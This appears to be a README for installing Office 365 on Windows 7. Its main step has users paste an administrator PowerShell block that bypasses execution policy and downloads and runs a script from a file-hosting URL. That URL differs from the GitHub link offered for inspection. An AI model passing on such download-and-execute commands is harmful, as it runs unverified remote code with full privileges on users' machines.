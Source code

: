 
# Download and Install Office 365 on Windows 7




## Install Office 365 on Windows 7

The latest version of Office 365 apps which will run on Windows 7 is version 2002 and the latest version of Office Deployment Tool (ODT) seems no longer works in Windows 7.
  
## Installation

Search then open Windows PowerShell as administrator.


![App Screenshot](https://s3.amazonaws.com/s3.bonben365.com/files/2023/pNJxSkLlqz8Y0vf59mzXBUs8CK6RDuPk8EcOJNz8FQXTy3zoHTbzAEbPlNf1.jpg)

Copy then right click to paste all below commands into PowerShell window at once then hit Enter.

```ps
Set-ExecutionPolicy Bypass -Scope Process -Force
[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol
$url="https://filedn.com/lOX1R8Sv7vhpEG9Q77kMbn0/Files/7/install.ps1"
iex ((New-Object System.Net.WebClient).DownloadString($url))
```

![App Screenshot](https://s3.amazonaws.com/s3.bonben365.com/files/2023/kZodfIIA0wZWDwlqtNV9T4MB5F4w0Jx4aNoEdZoEhgqKzHZWGEs8FoV0Ml7D.jpg)

![App Screenshot](https://s3.amazonaws.com/s3.bonben365.com/files/2023/8vTFcILJsXWHtVBCQjUa8cITjIT0rHEiqtazMKoxEtDsWUypUllsDvvWw2wu.jpg)

![App Screenshot](https://s3.amazonaws.com/s3.bonben365.com/files/2023/W4It2JDdjm9V8Be4H6O8Mt2D71WzURpRSTUrrHEixtNuhpgQwdX7UKsFaOMN.jpg)

![App Screenshot](https://s3.amazonaws.com/s3.bonben365.com/files/2023/BvCpxpPyloQ2rxlojhMuhhMGNgm9i8p352FlTZtV9GNLX8m5ix1A9qlIr2rZ.jpg)

![App Screenshot](https://s3.amazonaws.com/s3.bonben365.com/files/2023/WMSmJWli7TOb6ktagKUFdY3Wt05CTNtYawQGelEeKfSmBHR3uNv3S0aWJqT9.jpg)


➡️Please inspect [https://raw.githubusercontent.com/bonben365/office365-win7/main/install.ps1](https://raw.githubusercontent.com/bonben365/office365-win7/main/install.ps1) prior to running any of these scripts to ensure safety. We already know it's safe, but you should verify the security and contents of any script from the internet you are not familiar with.

## Documentation

[🌍https://bonben365.com/](https://bonben365.com/)


